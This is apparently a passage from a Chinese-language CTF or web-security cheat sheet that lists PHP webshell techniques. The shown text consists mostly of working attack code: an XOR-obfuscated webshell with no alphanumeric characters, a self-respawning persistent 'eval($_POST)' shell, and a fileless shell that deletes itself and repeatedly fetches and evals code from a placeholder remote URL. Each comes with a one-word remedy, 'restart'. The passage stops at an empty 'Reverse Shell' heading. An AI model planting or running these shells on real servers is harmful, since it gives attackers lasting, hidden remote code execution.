 ```php
?>

<?=
// 沒有英數字的webshell
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");


A=fl;B=ag;cat $A$B

```

## webshell駐留記憶體

解法：restart
```php
<?php
  ignore_user_abort(true);  // 忽略連線中斷
  set_time_limit(0);  // 設定無執行時間上限
  $file = 'shell.php';
  $code = '<?php eval($_POST[a]);?>';
  while(md5(file_get_contents($file)) !== md5($code)) {
    if(!file_exists($file)) {
      file_put_contents($file, $code);
    }
    usleep(50);
  }
?>

```

## 無文件webshell

解法：restart
```php
<?php
  unlink(__FILE__);
  ignore_user_abort(true);
  set_time_limit(0);
  $remote_file = 'http://xxx/xxx.txt';
  while($code = file_get_contents($remote_file)){
    @eval($code);
    sleep(5);
  };

?>
```


## Reverse Shell
